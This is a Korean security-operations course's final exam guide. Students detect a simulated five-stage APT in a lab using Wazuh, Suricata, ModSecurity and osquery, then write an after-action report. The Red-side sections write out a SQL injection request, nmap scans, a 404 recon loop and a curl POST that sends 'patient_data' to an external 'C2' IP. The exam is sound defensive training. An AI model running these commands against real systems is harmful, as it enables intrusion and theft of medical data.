

# Week 15 — 기말 — APT 5 단계 종합 대응 + 보고서 (180분)

> 본 주차는 secuops 과목의 **종합 평가** 이자 **수료**. W01-W14 의 5종 보안 솔루션
> + 호스트 가시화 + CTI 통합 운영 능력을 종합 평가. APT (Advanced Persistent Threat)
> 5 단계 시뮬에 대한 detection + 대응 + AAR 보고서.

## 1. 시험 개요

### 1.1 형식

```
시간: 180분 (3 시간)
   - 실기: 120 분 (5 단계 detect 검증)
   - 보고서: 60 분 (AAR 표준 양식)

점수: 5 단계 × 20점 = 100점
   - 단계 1 Recon  20
   - 단계 2 Initial Access  20
   - 단계 3 Lateral  20
   - 단계 4 C2 + Exfil  20
   - 단계 5 IR 보고서  20

도구: 6v6 의 모든 secuops 도구 + 인터넷 검색 (AI 어시스턴트 금지)
산출물: AAR (After-Action Report) 보고서 1+ 페이지
```

### 1.2 시험 환경

```
대상: 6v6 환경의 secuops 4 도구 (fw / ips / web / siem)
관측 도구: osquery 4 호스트 + Wazuh manager + dashboard
침투 시뮬 도구: attacker 컨테이너 (강사 또는 본인이 Red 역할)
시간: 본인 PC 에서 단독 진행 (시험관 monitoring)
```

---

## 2. APT 시나리오 (가상)

```
"K-APT 그룹이 한국 의료 데이터 탈취를 목적으로 6v6 환경의 mediforum.6v6.lab 을
 표적으로 한다. 다음 5 단계 침투 시도가 발생 — 본인은 SOC 분석가로서 5 단계
 모두 detection + 대응 + AAR 보고."

scope: 6v6 환경의 8 vuln + 4 인프라
schedule: 180분
deliverable: AAR (After-Action Report) 보고서
```

---

## 3. 5 단계 시나리오 상세

### 3.1 단계 1 (20점) — Reconnaissance

#### Red 행위 (시뮬)

```bash
# attacker 에서 50회 정찰 시도 (404 burst)
for i in {1..50}; do
    curl -s -o /dev/null \
        -A "Mozilla/5.0" \
        -H "Host: mediforum.6v6.lab" \
        "http://10.20.30.1/page-$i"
done
```

#### Blue 측 평가 항목

```
5점: Wazuh — Apache 404 burst alert (rule 31151 + frequency)
5점: Suricata — ET SCAN scanner detection (rule 86xxx)
5점: osquery — 비정상 curl process spawn (50 회)
5점: dashboard 의 alert burst pattern 분석
```

#### 검증 명령

```bash
# Wazuh 404 burst
ssh 6v6-siem 'sudo grep "31151\|31115" /var/ossec/logs/alerts/alerts.json | tail -10 | head -3 | jq ".rule.id, .rule.description"'

# Suricata scan
ssh 6v6-ips 'sudo tail -100 /var/log/suricata/eve.json | jq "select(.event_type==\"alert\" and (.alert.signature | tostring | test(\"SCAN\")))" 2>/dev/null | head -3'

# osquery curl process count
ssh 6v6-attacker 'sudo osqueryi --json "SELECT count(*) FROM processes WHERE name=\"curl\";"'
```

### 3.2 단계 2 (20점) — Initial Access (SQLi 시도)

#### Red 행위

```bash
# sqlmap UA + UNION SELECT 페이로드
curl -s -A "sqlmap/1.5" \
    -H "Host: juice.6v6.lab" \
    "http://10.20.30.1/api?q=admin UNION SELECT user,pass FROM medical"
```

#### Blue 측 평가 항목

```
5점: ModSec — 942100 (libinjection-SQLi) 매치 → 403
5점: Suricata — 9000xxx 사용자 정의 룰 매치 (W04 학습)
5점: Wazuh — rule 31125 (Apache 403) + CDB list 매치 (W13) → level 12
5점: timeline 분석 (T+0 sqlmap → T+0.1 ModSec → T+0.2 Wazuh)
```

#### 검증 명령

```bash
# ModSec 942 매치
ssh 6v6-web 'sudo tail -5 /var/log/apache2/modsec_audit.log | head -1 | \
    jq ".transaction.response.http_code, .transaction.messages[] | select(.id | startswith(\"942\")) | .msg"'

# Suricata sqlmap UA
ssh 6v6-ips 'sudo grep "sqlmap" /var/log/suricata/eve.json | tail -3 | head -1 | jq .alert'

# Wazuh integrated
ssh 6v6-siem 'sudo grep -E "sqlmap|942" /var/ossec/logs/alerts/alerts.json | tail -3 | head -1 | jq .rule, .data'
```

### 3.3 단계 3 (20점) — Lateral Movement (nmap scan)

#### Red 행위

```bash
# attacker 에서 dmz subnet 정찰
nmap -sT -p 22,80,443 10.20.32.0/24
```

#### Blue 측 평가 항목

```
5점: fw nftables — log prefix 또는 conntrack 의 SYN burst 흔적
5점: Suricata — ET SCAN nmap detection
5점: osquery — nmap process spawn (process_events daemon 모드 시)
5점: Wazuh — multi-source alert 통합 + level 7+
```

#### 검증 명령

```bash
# fw conntrack
ssh 6v6-fw 'sudo conntrack -L 2>/dev/null | grep "10.20.30.202" | head -5'

# Suricata scan
ssh 6v6-ips 'sudo tail -200 /var/log/suricata/eve.json | jq "select(.event_type==\"alert\" and (.alert.signature | tostring | contains(\"nmap\")))" 2>/dev/null | head -3'

# attacker 의 nmap process
ssh 6v6-attacker 'sudo osqueryi --json "SELECT * FROM processes WHERE name=\"nmap\" LIMIT 3;" 2>&1 | head'
```

### 3.4 단계 4 (20점) — C2 + Exfiltration 시도

#### Red 행위

```bash
# 가상 C2 IP 로 데이터 송신 시뮬 (CDB list 에 추가된 IP)
curl -s -X POST \
    -d "patient_data=PII_SAMPLE_$(date +%s)" \
    http://185.156.73.31:8080/c2 2>&1 | head
```

#### Blue 측 평가 항목

```
5점: CDB list (W13) 의 185.156.73.31 매치 → Wazuh rule 100300 (level 12)
5점: Suricata — ET CNC 룰셋 매치 (있다면)
5점: Active Response 활성 (W13) — fw drop 자동
5점: dashboard 의 critical alert burst 분석
```

#### 검증 명령

```bash
# Wazuh CDB 매치 (W13 의 100300)
ssh 6v6-siem 'sudo grep "100300\|185.156" /var/ossec/logs/alerts/alerts.json 2>/dev/null | tail -3 | head -1 | jq'

# Active Response 발생 검증
ssh 6v6-siem 'sudo tail -10 /var/ossec/logs/active-responses.log 2>/dev/null | head -3'

# fw 의 drop set 의 IP
ssh 6v6-fw 'sudo nft list set ip filter blocklist 2>/dev/null | head'
```

### 3.5 단계 5 (20점) — IR 통합 보고서

#### 산출물 — AAR (After-Action Report)

```markdown
# IR After-Action Report — K-APT 침투 시뮬 (W15 기말)

## 1. Executive Summary
본 보고서는 K-APT 그룹의 본 6v6 환경 대상 침투 시뮬 (5 단계) 의 detection + 대응
결과이다. 5 단계 모두 secuops 도구가 detect + 4 단계는 자동 차단. 침해 0건.

## 2. Engagement Overview
- 시작: 2026-MM-DD HH:MM
- 종료: 같은 날 + 30 분
- Adversary: K-APT (가상)
- Target: mediforum.6v6.lab (의료 데이터 모사)
- Operator: 본인 (SOC 분석가)

## 3. Timeline (5 단계)
| t | event | source | detection |
|---|-------|--------|-----------|
| T+0   | 404 recon (50 req) | Apache | Wazuh 31151 |
| T+30s | SQLi attempt | ModSec | 403 + 942100 |
| T+1m  | nmap scan | Suricata | ET SCAN |
| T+1.5m | C2 outbound | Wazuh | CDB list 100300 |
| T+2m  | IR 시작 + AR 동작 | SOC 분석가 + AR | fw drop |

## 4. MITRE ATT&CK Mapping
- T1595 Active Scanning (404 recon)
- T1190 Exploit Public-Facing (SQLi)
- T1046 Network Service Scanning (nmap)
- T1041 Exfiltration over C2 (outbound)

## 5. ISMS-P 2.12 만족도
- 2.12.1 사고 인지 — 5 단계 모두 alert 발생 (성공)
- 2.12.2 대응 체계 — 자동 차단 (ModSec) + 분석 (SOC 분석가)
- 2.12.3 사고 분석 — timeline 통합 (Wazuh + Suricata + ModSec)
- 2.12.4 사후 관리 — AAR 작성 + IOC 갱신 + Coverage Matrix

## 6. ATT&CK Coverage Matrix
| Tactic | Technique | Red | Blue | Coverage |
| TA0043 Recon | T1595 | ✓ | ✓ Wazuh + Suricata | 100% |
| TA0001 Initial Access | T1190 | ✓ | ✓ ModSec + Wazuh | 100% |
| TA0007 Discovery | T1046 | ✓ | ✓ Suricata | 100% |
| TA0011 C2 | T1071 | ✓ | ✓ CDB list + AR | 100% |
| TA0010 Exfiltration | T1041 | ✓ | ✓ AR 차단 | 100% |

총 Coverage: 100% (5/5)

## 7. 영향 분석
- 침해 0건 (모든 시도 차단)
- alert fatigue 5건 (분석가 부담 — acceptable)
- false-positive 0 (정확한 룰)
- 데이터 유출 0 byte

## 8. 운영 권장 (10건)
1. (즉시) CDB list 자동 갱신 cron 검증 (6시간 주기) — W13
2. (즉시) Active Response timeout 조정 (30분 → 1시간 검토)
3. (1주) Suricata threshold rate-limit (alert burst 시) — W05
4. (1주) ModSec paranoia 1 → 2 단계 상승 검토
5. (1개월) OpenCTI 본격 설치 + Sighting 등록 — W14
6. (1개월) sysmon-for-linux 4 호스트 설치 — W11
7. (분기) 분기별 false-positive 룰 review
8. (분기) ISMS-P 2.12 의 4 sub-control 갱신
9. (분기) KISA / K-ISAC IOC sharing
10. (반기) Coverage Matrix 5%+ 향상 목표

## 9. Lessons Learned
- 잘 된 점: 5 단계 모두 detect + 4 단계 자동 차단
- 개선: alert burst 시 SOC 분석가 burnout 의 risk → 자동화 강화 필요
- 다음 사이클: 분기 review 후 룰 강화 + 재 시뮬
```

#### 평가 항목 (단계 5 의 20점)

```
5점: AAR 의 7 섹션 완성도 + 양식 표준 준수
5점: Timeline 정확 + 각 단계의 detection 도구 매핑
5점: Coverage Matrix + 권장 우선순위
5점: ISMS-P + ATT&CK 매핑 + Lessons Learned
```

---

## 4. 평가 기준 매트릭스

| 점수 | 등급 | 의미 |
|------|------|------|
| 90+ | **A** | 수료 + advanced track (course14 soc-advanced) 자격 |
| 80-89 | **B+** | 수료 |
| 70-79 | **B** | 수료 |
| 60-69 | **C+** | 수료 (조건부 — 부분 재시험) |
| 50-59 | **C** | 부분 재시험 (W01-W14 의 약점 주차) |
| 50 미만 | **F** | 재수강 (다음 학기) |

총 100점.

---

## 5. 시험 진행 순서

### 5.1 시작 전 (5분)

```
1. bastion ProxyJump + 4 호스트 (fw / ips / web / siem) 접근 확인
2. 모든 도구의 가동 상태 (Wazuh + Suricata + ModSec + osquery)
3. CDB list 의 IOC 등록 확인 (W13 의 결과)
4. 답안 파일 생성: /tmp/final_secuops_<학번>.md
5. 시간 confirm
```

### 5.2 실기 (120분)

```
0-25분  : 단계 1 Recon (Red 시뮬 + Blue 검증)
25-50분 : 단계 2 Initial Access
50-75분 : 단계 3 Lateral
75-100분: 단계 4 C2 Exfil
100-120분: 단계 5 IR (Active Response 동작 확인)
```

### 5.3 보고서 (60분)

```
AAR 의 9 섹션 작성:
   1. Executive Summary
   2. Engagement Overview
   3. Timeline (5 단계)
   4. MITRE ATT&CK Mapping
   5. ISMS-P 2.12 만족도
   6. Coverage Matrix
   7. 영향 분석
   8. 운영 권장 (10건)
   9. Lessons Learned
```

### 5.4 시험 후

```
1. AAR 보고서 PDF 또는 Markdown 제출 (LMS / email)
2. 본인 환경 cleanup (30분 안에)
   - 추가한 CDB list / 룰 / Active Response 라인 모두 검토
   - 시뮬 시 만든 임시 파일 삭제
3. 시험 종료
```

---

## 6. R/B/P 시나리오 — 본 시험의 종합



본 시험에서 학생은 **SOC 분석가 = Blue Team** 의 역할 — 본 환경의 secuops 도구
운영 + alert 분석 + 침해 추적 + AAR 작성.

---

## 6.5 R/B/P 공격 분석 케이스 확장 (본 주차 추가)

### 6.5.0 R/B/P 일상 비유 — 종합 면허 시험의 위기 대처 5 단계

본 절은 W15 의 APT 5 단계 시뮬을 종합 운전면허 1종 대형 시험 비유로 시작한다.

학생이 1종 대형 면허 시험을 본다고 상상해보자. 1종 대형은 단순 도로주행이 아니라 5 단계의 종합 능력을 한 번에 평가한다.

- **1. 출발 전 점검 (Reconnaissance 단계).** 차량 외관, 타이어, 등화류 확인.
- **2. 초기 출발 (Initial Access).** 시동 + 안전 운전 출발.
- **3. 일반 주행 (Lateral Movement).** 차선 변경, 교차로, 좁은 길.
- **4. 통신 + 후방 점검 (C2 + Exfiltration).** 무전 응답, 후방 사각지대 점검.
- **5. 종합 정리 (IR 통합 보고서).** 시험관 면담 + 본인 점검 + 시험 후 차량 정비.

학생은 단계마다 시험관에게 정확한 행동을 보여줘야 한다. 한 단계의 실수가 다음 단계까지 연쇄적으로 영향을 미치므로, 단계별 cycle 의 매끄러움이 종합 점수다.

| 일상 비유 | APT 5 단계 |
|-----------|------------|
| 출발 전 점검 | Reconnaissance |
| 초기 출발 | Initial Access (SQLi) |
| 일반 주행 | Lateral Movement (nmap scan) |
| 통신 + 후방 점검 | C2 + Exfiltration |
| 종합 정리 | IR 통합 보고서 + AAR |

본 절은 본 시험의 풀이 cycle 자체를 R/B/P 패턴으로 세 케이스로 정리한다.

- 케이스 1 — APT 5 단계 attack 의 단일 timeline 재구성. 5 source 의 alert 를 시간순 한 줄로 묶기.
- 케이스 2 — 5 단계 각각의 ATT&CK 매핑과 detection coverage 의 결합 점검.
- 케이스 3 — 시험 후 cleanup + AAR 한 페이지 + 본 과목 졸업 review.

원칙은 W01 ~ W14 와 같다. 재현 가능성, 도구 위주 분석, 신입생 친화, 학습 환경 한정.

### 6.5.1 케이스 1 — APT 5 단계의 단일 timeline 재구성

**0. 일상 비유 — 5 영상 cctv 의 5 단계 사건 시간순 결합.**

도시 경찰서 형사가 5 군데 cctv 영상을 모은다. 각 영상은 시간 동기화가 맞춰져 있고, 같은 도둑이 5 다른 장소에 5 분 간격으로 출현한다. 영상마다 단편적 단서뿐이지만 시간순 결합은 도둑의 전체 행동 경로 (kill chain) 를 드러낸다.

| 일상 비유 | APT timeline |
|-----------|--------------|
| 5 cctv 영상 | 5 source 의 alert (fw / ips / web / siem / host) |
| 시간 동기화 | NTP 또는 동일 UTC |
| 단편적 단서 | 단일 source 의 단발 alert |
| 시간순 결합 | timeline reconstruction |
| 전체 행동 경로 | kill chain |

**0a. 사용 도구 사전 안내.**

- **W08 케이스 1 의 5 위치 jq 명령.**
- **Wazuh Dashboard 의 Discover 단일 query.**
- **timeline 한 줄 정리 양식.**

**1. Red — 시험관이 사전에 주입한 APT 5 단계.**

시험관이 시험 시작 전 attacker VM 에서 다음 5 단계를 5 분 간격으로 발생시킨다. 학생은 흔적만 보고 추적한다.

```
T+0min  : Reconnaissance — nmap -sV 10.20.30.1 (ips Suricata alert)
T+5min  : Initial Access — SQLi payload + 401 (web ModSec audit + ips alert)
T+10min : Lateral Movement — nmap fw 너머 dmz 10.20.32.80 (fw forward drop + log)
T+15min : C2 + Exfiltration — DNS beacon + 외부 IP 443 connection 시도 (sysmon Event 22 + Event 3)
T+20min : Cleanup 위장 — 신규 사용자 + cron + listener (osquery + Wazuh syscheck)
```

각 단계는 짧은 시간 안에 흔적 한 두 줄을 남긴다.

**2. 발생하는 로그/아티팩트.**

- fw 의 dmesg + nft counter — Reconnaissance + Lateral Movement 흔적.
- ips 의 eve.json — Suricata alert 다수.
- web 의 modsec_audit.log + auth.log — Initial Access 흔적.
- web 의 sysmon event — C2 흔적.
- web 의 `/etc/passwd` + `/etc/cron.d/` + listening_ports — Cleanup 위장 흔적.
- siem 의 alerts.json — 5 단계 통합 alert.

**3. Blue — 5 단계 timeline 단일 한 줄 재구성.**

학생이 시험 시간 안에 다음 5 줄을 순서대로 실행한다.

```bash
# 1. fw 의 forward drop 흔적
ssh 6v6-fw 'sudo dmesg --ctime | grep "FWD-DROP\|RBPDROP" | tail -10'

# 2. ips 의 Suricata alert (nmap + SQLi)
ssh 6v6-ips 'sudo tail -300 /var/log/suricata/eve.json | jq -r "select(.event_type==\"alert\" and .src_ip==\"10.20.30.202\") | \"\(.timestamp) ips alert \(.alert.signature_id) \(.alert.signature)\""'

# 3. web 의 ModSec audit
ssh 6v6-web 'sudo tail -300 /var/log/apache2/modsec_audit.log | jq -r "select(.transaction.client_ip==\"10.20.30.202\") | \"\(.transaction.time_stamp) web modsec \(.request.uri)\""'

# 4. web 의 sysmon DNS + Network
ssh 6v6-web 'sudo tail -300 /var/ossec/logs/alerts/alerts.json | jq -r "select(.agent.name==\"web\" and (.data.sysmon.EventID==\"22\" or .data.sysmon.EventID==\"3\")) | \"\(.timestamp) web sysmon EventID=\(.data.sysmon.EventID) Image=\(.data.sysmon.Image)\""'

# 5. web 의 신규 사용자 + cron + listener
ssh 6v6-web 'echo "--- new users ---"; sudo grep -E "^[a-z]+:x:1[0-9]{3}:" /etc/passwd | tail -5; echo "--- new cron ---"; sudo ls -la /etc/cron.d/ | tail -5; echo "--- listeners ---"; sudo ss -ltnp 2>/dev/null | grep -v "127.0.0.1\|::1" | tail -5'
```

각 출력을 학생 노트북의 한 텍스트 파일에 모은다.

다음으로 한 줄 sort 로 시간순 재구성.

```bash
cat /tmp/all_w15_logs.txt | sort -k1
```

결과로 다음 timeline 이 드러난다.

```
T+0min   ips alert  ET SCAN nmap -sV 10.20.30.1
T+5min   web modsec rule_id=942100 /search?q=...SQLi
T+10min  fw  FWD-DROP src=10.20.30.202 dst=10.20.32.80
T+15min  web sysmon EventID=22 QueryName=beacon.local.lab
T+20min  web /etc/passwd + new user backupz + /etc/cron.d/w15_back
```

이 timeline 이 본 시험의 단계 5 (IR 통합 보고서) 답안의 핵심이다.

Wazuh Dashboard 의 Discover 에서 한 번에도 본다.

1. 좌측 햄버거 메뉴 → `Discover` 선택.
2. Index pattern `wazuh-alerts-*`.
3. Time picker `Last 1 hour`.
4. Search bar 에 `data.srcip:10.20.30.202` 입력.
5. 좌측 `Available fields` 에서 `rule.mitre.id`, `agent.name`, `rule.description` 을 columns 에 추가.

한 화면에 5 단계의 모든 alert 가 시간순으로 정렬된다.

**4. Blue — 운영자 조치 권장.**

학생이 답안에 다음 다섯 줄을 적는다.

- **즉시 차단.** fw 의 dynamic blacklist set 에 10.20.30.202 timeout 1시간.
- **affected host 격리.** web VM 의 inbound 22, 80 임시 차단.
- **persistence 제거.** 신규 사용자 잠금 + cron 파일 보존 후 제거 + listener kill.
- **C2 차단.** sysmon Event 22 의 의심 도메인을 CDB list 에 등록 + Stream Connector 검증.
- **5 도구 baseline 재검증.** W08 의 cleanup 5 단계 동일 수행.

**5. Purple — 자기 검증 + 시험관 채점 대비.**

학생이 답안 제출 전에 다음 세 가지를 자가 검증한다.

- **5 단계 모두 확인.** 5 단계 중 한 단계라도 빠지면 timeline 이 불완전하다.
- **timestamp timezone 정확.** 모든 host 의 UTC 또는 KST 통일.
- **kill chain 매핑.** 각 단계의 ATT&CK technique 매핑이 답안에 포함되어 있는지.

본 케이스 cycle 한 바퀴는 시험 본문의 약 60분 정도다.

### 6.5.2 케이스 2 — 5 단계 ATT&CK 매핑 + detection coverage 결합 점검

**0. 일상 비유 — 시험관 채점표의 5 항목 모두 점수 확인.**

도로주행 시험관의 채점표는 5 항목으로 나뉜다. 각 항목마다 만점이 20점이고, 한 항목의 0점도 종합 점수에 큰 영향을 준다. 시험관이 항목별로 채점하면서 본인 환경의 detection 도구가 각 단계를 모두 잡았는지 본다.

| 일상 비유 | 5 항목 채점 |
|-----------|--------------|
| 출발 전 점검 | Reconnaissance detection coverage |
| 초기 출발 | Initial Access detection |
| 일반 주행 | Lateral Movement detection |
| 통신 + 후방 점검 | C2 + Exfiltration detection |
| 종합 정리 | Reporting + AAR |

**0a. 사용 도구 사전 안내.**

- **Wazuh Dashboard 의 MITRE ATT&CK 모듈.**
- **alerts.json 의 rule.mitre.id 필드.**
- **ATT&CK Navigator 의 Coverage Matrix.**

**1. Red — 케이스 1 의 데이터 재사용.**

본 케이스는 추가 attack 재현이 아니라 케이스 1 의 결과 데이터를 ATT&CK 관점으로 재분석한다.

**2. 발생하는 로그/아티팩트.**

5 단계 attack 의 alerts.json 안에 rule.mitre.id 가 매핑된 줄이 있다.

```
T1595  Active Scanning      (Reconnaissance, nmap)
T1190  Exploit Public-Facing App (Initial Access, SQLi)
T1021  Remote Services      (Lateral Movement)
T1071  Application Layer Protocol (C2)
T1098  Account Manipulation (Persistence)
```

**3. Blue — 5 단계 coverage 매트릭스 직접 확인.**

먼저 jq 로 5 단계 technique 별 카운트.

```bash
ssh 6v6-siem
sudo tail -500 /var/ossec/logs/alerts/alerts.json \
  | jq -r 'select(.data.srcip=="10.20.30.202" and .rule.mitre.id?) | .rule.mitre.id[]' \
  | sort | uniq -c | sort -rn
```

결과로 5 단계가 모두 매핑된 줄이 보이면 detection coverage 가 완전하다. 한 단계가 빠지면 그 단계의 detection 격차다.

다음으로 Wazuh Dashboard 의 MITRE ATT&CK 모듈.

1. 좌측 햄버거 메뉴 → `Wazuh` → `Modules` → `MITRE ATT&CK` 선택.
2. Time picker `Last 1 hour`.
3. agent selector 를 `all` 로 설정.
4. ATT&CK 매트릭스 화면에서 다음 5 카드가 모두 활성 (색이 진함) 되어야 한다.
   - `Reconnaissance` → T1595.
   - `Initial Access` → T1190.
   - `Lateral Movement` → T1021.
   - `Command and Control` → T1071.
   - `Persistence` → T1098.
5. 활성되지 않은 카드가 있으면 detection coverage 격차.

추가로 한국 위협 매핑.

- T1190 — KISA 사례의 web shell 침해 패턴.
- T1098 — 한국 금융권 침해의 unauthorized account 추가 패턴.
- T1071 — Kimsuky APT 의 C2 패턴.

**4. Blue — 답안의 ATT&CK Mapping 섹션 작성.**

학생이 답안의 단계 5 보고서에 다음 mapping 표를 포함한다.

```markdown
## 4. MITRE ATT&CK Mapping

| 단계 | Tactic | Technique | 본인 환경 매핑 rule |
|------|--------|-----------|---------------------|
| 1 | Reconnaissance | T1595 Active Scanning | Suricata rule 2010xxx |
| 2 | Initial Access | T1190 Exploit Public-Facing | ModSec 942100 + Wazuh 86xxx |
| 3 | Lateral Movement | T1021 Remote Services | fw FWD-DROP log |
| 4 | C2 | T1071 Application Layer Protocol | sysmon Event 22 DnsQuery + Event 3 |
| 5 | Persistence | T1098 Account Manipulation | Wazuh syscheck 550 + osquery users |
```

**5. Purple — 본 과목 졸업 후의 detection coverage plan.**

학생이 답안에 본 과목 졸업 후의 plan 을 한 페이지 첨부.

- 분기 1회 정기 hunt session (W14 학습).
- 외부 IOC feed 의 자동 sync (W13 학습).
- coverage 격차의 분기별 보강 plan.
- 한국 KISA + ISAC 의 정기 공유 참여.

### 6.5.3 케이스 3 — 시험 후 cleanup + 본 과목 졸업 AAR

**0. 일상 비유 — 면허 시험 후 차량 정비 + 본인의 운전 면허 활용 plan.**

시험을 마친 학생이 시험 차량을 정비해 다음 학생에게 넘겨주고, 본인은 면허를 손에 들고 향후 운전 활용 plan 을 세운다. 학습 환경의 다음 학생을 위한 baseline 복귀 + 본인의 본 과목 학습의 마무리.

| 일상 비유 | 시험 후 + 졸업 |
|-----------|----------------|
| 차량 정비 | 학습 환경 baseline 복귀 |
| 면허 손에 들기 | 본 과목 수료 |
| 향후 활용 plan | 졸업 후 학습 path |
| 운전 일지 시작 | 본인 SOC 운영 일지 |

**0a. 사용 도구 사전 안내.**

- **W08 의 cleanup 5 단계 명령 (재사용).**
- **AAR markdown 양식.**
- **본 과목의 9.3 (수료 후 학습 path) 와 연결.**

**1. Red — 시험 중 학생이 임시로 만든 흔적 (W08 + W14 의 합).**

본 시험은 W08 보다 더 많은 도구를 사용했으므로 cleanup 범위도 더 넓다.

- fw 의 임시 차단 rule.
- ips 의 local.rules 추가 sid.
- web 의 ModSec exception.
- web 의 osquery scheduled_query.
- siem 의 임시 CDB list entry.
- siem 의 custom rule 100xxx 시리즈.
- 시험관 주입 침해의 잔존 (신규 사용자, cron, listener).

**2. 발생하는 로그/아티팩트.**

본 단계의 흔적은 학생이 의도한 변경 + 시험관의 시뮬 침해 잔존이다.

**3. Blue — 6 단계 cleanup.**

학생이 답안 제출 전에 다음 6 줄을 순서대로 실행한다.

```bash
# 1. fw 의 임시 차단 rule 제거
ssh 6v6-fw 'HANDLE=$(sudo nft -a list chain inet six_filter input 2>/dev/null | grep "10.20.30.202" | grep -oE "handle [0-9]+" | head -1 | awk "{print \$2}"); [ -n "$HANDLE" ] && sudo nft delete rule inet six_filter input handle $HANDLE; sudo nft flush set inet six_filter blacklist 2>/dev/null'

# 2. ips 의 임시 sid 제거
ssh 6v6-ips 'sudo sed -i "/sid:90159[0-9]\{3\};/d" /etc/suricata/rules/local.rules; sudo suricatasc -c reload-rules'

# 3. web 의 ModSec 임시 exception 제거
ssh 6v6-web 'sudo sed -i "/W15-EXAM-EXCEPTION/d" /etc/modsecurity/modsec_custom_exceptions.conf; sudo apachectl configtest && sudo systemctl reload apache2'

# 4. web 의 osquery 임시 schedule 제거
ssh 6v6-web 'sudo sed -i "/w15_exam_query/d" /etc/osquery/osquery.conf; sudo systemctl reload osqueryd 2>/dev/null'

# 5. siem 의 임시 rule + CDB entry 제거
ssh 6v6-siem 'sudo sed -i "/<!-- W15-EXAM -->/,/<!-- end W15-EXAM -->/d" /var/ossec/etc/rules/local_rules.xml; sudo sed -i "/w15_exam_entry/d" /var/ossec/etc/lists/known_bad_ips; sudo /var/ossec/bin/wazuh-makelists; sudo /var/ossec/bin/wazuh-control restart'

# 6. 시험관 주입 침해 잔존 제거
ssh 6v6-web 'sudo userdel -r backupz 2>/dev/null; sudo rm -f /etc/cron.d/w15_back; sudo pkill -f "/tmp/.w15_listener" 2>/dev/null; sudo rm -f /tmp/.w15_listener'
```

각 단계 후 baseline 확인.

```bash
ssh 6v6-fw 'sudo nft list ruleset | grep -c "10.20.30.202"'   # 0 이어야 함
ssh 6v6-ips 'sudo grep -c "sid:90159" /etc/suricata/rules/local.rules'  # 0
ssh 6v6-web 'sudo grep -c "W15-EXAM" /etc/modsecurity/modsec_custom_exceptions.conf'  # 0
ssh 6v6-web 'sudo grep -c "w15_exam" /etc/osquery/osquery.conf'  # 0
ssh 6v6-siem 'sudo grep -c "W15-EXAM" /var/ossec/etc/rules/local_rules.xml'  # 0
ssh 6v6-web 'getent passwd backupz; ls /etc/cron.d/w15_back 2>/dev/null'  # 둘 다 없음
```

모두 0 또는 없음이 정상.

**4. Blue — 졸업 AAR 한 페이지.**

학생이 시험 후 다음 양식의 AAR 을 작성한다.

```markdown
# secuops 종합 평가 AAR — 본 과목 졸업

## 1. 시험 진행 요약
- 시작 / 종료 / 정시 제출 / 총점

## 2. 5 단계 평가
- 단계 1 Recon: X/20
- 단계 2 Initial Access: X/20
- 단계 3 Lateral Movement: X/20
- 단계 4 C2: X/20
- 단계 5 IR 보고서: X/20
- 총점: X/100

## 3. 본 과목 15 주 학습 review
### 잘한 영역
- Wazuh + Suricata 의 alert 분석 cycle 의 익숙해짐.
- attacker VM 의 5 단계 침해 시뮬을 직접 재현하고 분석.
- ATT&CK matrix 의 coverage 격차 식별 능력.

### 보완 필요 영역
- ModSec 의 paranoia + anomaly score 의 직관 추가 학습.
- OpenCTI 의 STIX 작성 표준의 정착.
- 한국 KISA / ISAC 의 외부 공유 양식의 추가 연습.

## 4. 졸업 후 plan
- 본 과목의 7 후속 과목 중 1 과목 수강 (예: attack, AI 보안, Bastion 운영).
- 본인 lab 환경에 6v6 동일 구조 설치.
- 한국 KISA 보호나라 + 산업 ISAC 의 정기 참여.

## 5. 본 과목의 평생 자산
- 5 종 보안 솔루션 (방화벽, IDS, WAF, SIEM, 호스트 가시화) 의 직접 운영 경험.
- CTI ↔ SIEM 통합의 end-to-end cycle 이해.
- Threat Hunting 의 4 단계 cycle 의 실행 능력.
- 한국 + 국제 표준 (ISMS-P, NIST CSF, MITRE ATT&CK, STIX/TAXII) 의 매핑 능력.
```

**5. Purple — 본 과목 졸업 + 평생 학습.**

학생이 다음 세 가지를 마지막으로 정리한다.

- **본 과목 졸업 인증.** AAR + 보고서 제출이 본 과목의 마지막 의무.
- **후속 과목 진입.** 본 과목 의 다음 학습은 attack (모의해킹) 또는 인공지능보안 (AI 보안 입문) 중 본인 우선 순위.
- **평생 운영자 의 자세.** 보안은 한 번 졸업으로 끝나지 않는다. 본 과목의 R/B/P cycle 을 평생 본인 환경에서 반복.

### 6.5.4 본 절 정리

본 절은 W15 의 종합 평가를 실제 시험 풀이 cycle + 졸업 cycle 에 연결했다. 학생이 다음 능력을 갖춘다.

- 5 source 의 흩어진 alert 를 시간순 한 줄 timeline 으로 재구성하고 APT 5 단계 kill chain 을 가시화한다.
- 5 단계 각각의 ATT&CK technique 매핑 + Wazuh Dashboard ATT&CK 모듈 + coverage 매트릭스 결합 분석.
- 6 단계 cleanup + 졸업 AAR + 평생 학습 plan 으로 본 과목을 마무리.

본 과목 15 주의 모든 학습이 본 절의 한 cycle 로 통합된다. 학생은 본 과목 졸업과 함께 보안 운영자의 평생 학습 path 의 첫 발걸음을 시작한다.

---

## 7. 시험 대비 — W01-W14 review (시험 직전)

```
W01 : 5 종 보안 솔루션 + 6v6 4-tier
W02-03 : nftables 방화벽 (정책 + DNAT)
W04-05 : Suricata IDS (룰 작성 심화)
W06 : ModSec WAF + CRS 941/942/930
W07 : osquery 호스트 가시화 + FIM
W08 : 중간고사 (5 시나리오)
W09-10 : Wazuh manager + agent
W11 : sysmon-for-linux 의 9 EventID
W12-14 : OpenCTI + Threat Hunting + KISA 공유
```

각 주차의 핵심 명령 1~2 개를 외워두면 시험 시간 단축.

---

## 8. 시험 후 학습 권장

### 8.1 모든 학생

- AAR 보고서 review + 강사 피드백 검토
- 못 푼 단계의 정답 분석
- W15 의 권장 10건 본인 환경 적용

### 8.2 A 등급 (advanced track)

- course14 soc-advanced — 고급 SIEM 상관분석 + SIGMA / YARA
- course5 soc — SOC 분석가의 day-to-day

### 8.3 C 이하 (재시험)

